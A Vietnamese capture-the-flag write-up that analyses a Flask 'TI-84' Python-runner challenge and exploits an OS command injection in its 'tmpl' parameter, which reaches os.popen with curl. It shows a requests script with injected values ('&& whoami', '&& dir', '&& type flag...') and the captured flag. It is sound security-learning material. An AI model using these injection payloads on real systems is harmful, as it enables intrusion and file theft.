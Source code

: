 ![image](https://github.com/user-attachments/assets/6f7b63e8-318c-4e55-bb9f-c0dddc93ab81)

# **ANALYZE**

Theo như mô tả , thì trang web này được code bởi 1 dev ko quá tốt , nên sẽ để lại 1 số lỗi ko đáng có.

Trước hết , tôi sẽ đi test các chức năng có trên trang web như 1 người dùng bình thường
Và tôi thấy nó là 1 dạng để chúng ta nhập code python vào rồi thực thi cho ta
Tôi sẽ thử với câu lệnh python đơn giản `print("he he he") `
![image](https://github.com/user-attachments/assets/8d91fcdc-5b05-453f-9a5b-83bc95b964b4)


Bây giờ chúng ta sẽ cùng đi phân tích source code mà chall đã cấp cho chúng ta.

ở trong tệp đầu tiên là `code_tmpl.py`
```
from RestrictedPython import compile_restricted
code = """
{{code}}
"""

byte_code = compile_restricted(code, '<inline>', 'eval')

print(eval(byte_code, {'__builtins__': {}}, {'__builtins__': {}}))

```
from RestrictedPython import compile_restricted
→ Import hàm compile_restricted để biên dịch mã Python trong môi trường bị giới hạn (sandbox).

code = """{{code}}"""
→ Khai báo chuỗi chứa mã Python cần thực thi. {{code}} là placeholder để chèn mã động.

byte_code = compile_restricted(code, '<inline>', 'eval')
→ Biên dịch chuỗi code thành bytecode an toàn.
→ 'eval' chỉ định đây là biểu thức, không phải toàn bộ chương trình.
→ '<inline>' là tên giả lập file dùng khi báo lỗi.

print(eval(byte_code, {'__builtins__': {}}, {'__builtins__': {}}))
→ Thực thi bytecode bằng eval trong môi trường không có hàm dựng sẵn.
→ Cả globals và locals đều được truyền __builtins__ rỗng để giới hạn tuyệt đối quyền truy cập.

Tiếp theo là file `server.py`
file này được sử dụng framework flask để code trang web python.

```
from flask import Flask, request, send_file
import subprocess
import tempfile
import os
app = Flask(__name__, static_folder=None)
code_tmpl = open("code_tmpl.py").read()
```
Import các thư viện cần thiết: Flask, subprocess, os.

Khởi tạo Flask app và đọc nội dung file code_tmpl.py – đây là đoạn mã chứa khung Python để nhúng code người dùng.



Route / – Trả Về Giao Diện Chính
```
@app.route('/')
def index():
    return open("static/index.html", "rb").read().decode()
```
Trả về nội dung HTML từ file index.html trong thư mục static.


Route /static – Phục Vụ File Template
```
@app.route('/static')
def fileserve():
    url = request.url
    fpath = url.split(f"static?")[-1]
    files = os.listdir("static")
    if fpath not in files or not fpath.endswith(".tmpl"):
        fpath = "🐈.tmpl"
    return send_file(f"static/{fpath}")

```
Tách tên file .tmpl từ URL (không dùng request.args, dễ bị lỗi).

Kiểm tra file tồn tại và có đuôi .tmpl.

Nếu không hợp lệ, fallback sang 🐈.tmpl.



Hàm render_error – Xử Lý Lỗi
```
def render_error(msg):
    return open("static/error.html", "rb").read().decode().replace("{{msg}}", msg)
```
Trả về giao diện lỗi với thông điệp được chèn vào HTML.


Route /ti-84 – Xử Lý Thực Thi Code
```
@app.route('/ti-84')
def execute_code():
    code = request.values.get('code')
    output_tmpl = request.values.get('tmpl')

```
Nhận input: code (mã Python), tmpl (tên template để hiển thị kết quả).
```
    if len(code) > 3 and any(c in code for c in "0123456789+*-/"):
        return render_error("This is a ~~Wendys~~ TI-84.")
```

Ghi Code vào File Tạm
```
    tmpl = code_tmpl
    tmplcode = tmpl.replace("{{code}}", code)
    tmpfile = tempfile.NamedTemporaryFile(suffix=".py", delete=False)
    tmpfile.write(tmplcode.encode())
    tmpfile.flush()
```
Chèn đoạn code vào template Python.

Tạo file .py tạm thời để chuẩn bị thực thi.


Tạo URL Template và Kiểm Tra Emoji
```
    url = f"{request.url_root}/static?{output_tmpl}.tmpl"
    if sum(1 for c in url if ord(c) > 127) > 1:
        return render_error("too many emojis... chill with the brainrot")
```
Tạo URL để lấy nội dung template qua HTTP.

Giới hạn số lượng ký tự Unicode nhằm tránh spam emoji.


Và điều quan trọng và là mấu chốt của bài bây giờ mới xuất hiện : 
```
    out_tmpl = os.popen(f"curl.exe -s {url}").read()
```
Ông dev này đã dùng os.popen() để gọi curl.exe từ dòng lệnh.

Và đầu vào outphut_tml chính là 1 nơi thích hợp để cho ta có thể truyền untrusted data vào.



# **EXPLOIT**

Chúng ta cùng bắt tay vào tìm cách để có thể khai thác được trang web này , 
ta sẽ xác định trước 1 số thông tin : 
```
Mục tiêu là tìm và đọc được file flag.txt thông qua lỗ hổng OS Command Injection ở endpoint /ti-84.
Và nơi chúng ta chèn payload chính là tham số ?tmpl=
```

Tôi sẽ thử với 1 payload đơn giản trước 

Tôi sẽ sử dụng thư viện requests để gửi 1 cái request tới trang web và mang theo payload của mình tới trang web

```
import requests

url = "https://misc-ti-1983-cwhvdsj2.windows.smiley.cat/ti-84"
payload = {
    "code": "1+1",
    "tmpl": "🐈.tmpl && whoami && echo"
}
r = requests.get(url, params=payload)
print(r.text)
```
Sau khi đoạn Os command được tôi gửi đi thì nó sẽ được đưa vào dòng này để thực thi 
```
    out_tmpl = os.popen(f"curl.exe -s {url}").read()
```
```
curl.exe -s http://host/static?🐈.tmpl && whoami && echo
```
![image](https://github.com/user-attachments/assets/e8ac6e25-0131-4b9f-8af8-0fa8f2a4ebc7)

486bd0acb945\chall: là kết quả của lệnh whoami, cho biết tên người dùng của hệ thống máy chủ đang chạy ứng dụng.

Và còn có thể kết luận thêm là hệ điều hành mà web sử dụng là window do sử dụng `\` thay vì `/` như ơ linux

tmpl: là kết quả của echo hoặc phần còn lại của shell command.

Bước tiếp theo , ta sẽ phải tìm xem flag nằm trong thư mục nào 

Như đoạn script ở trên , ta sẽ sửa lại 1 chút ở payload : 
```
payload = {
    "code": "1+1",
    "tmpl": "🐈.tmpl && dir && echo"
}
```
Và chắc chắn sẽ có người thắc mắc , tại sao ko sử dụng lệnh `ls` mà lại đi dùng `dir`

Câu trả lời too ez , Hệ điều hành mà trang web sủ dụng chính là window , ko phải linux

```
 Volume in drive C has no label.
 Volume Serial Number is 2C73-C453

 Directory of C:\app

06/14/2025  04:41 AM    <DIR>          .
06/14/2025  04:29 AM               208 code_tmpl.py
06/04/2025  05:42 AM         3,730,024 curl.exe
06/14/2025  04:29 AM              (33) flag_4dfa54cf005d9fea.txt
06/12/2025  06:47 AM                23 requirements.txt
06/14/2025  04:29 AM             1,927 server.py
06/14/2025  04:41 AM    <DIR>          static
               5 File(s)      3,732,215 bytes
               2 Dir(s)  136,177,086,464 bytes free
tmpl
```

Để đọc được flag thì ta sẽ tiếp tục sửa lại biến payload : 

và bình thường ở trên linux , chúng ta thường dùng `cat` để đọc file , 

Nhưng bài này là ơ window , và tất nhiên window cũng sẽ có lệnh đọc file riêng của nó

Window sử dụng lệnh `type `
```
payload = {
    "code": "1+1",
    "tmpl": "🐈.tmpl && type flag_4dfa54cf005d9fea.txt && echo"
}
```
![image](https://github.com/user-attachments/assets/894fef68-d242-4af2-989a-37d2aaa5ae4d)


# **FLAG**
```
.;,;.{command_injection_in_2025?}
```
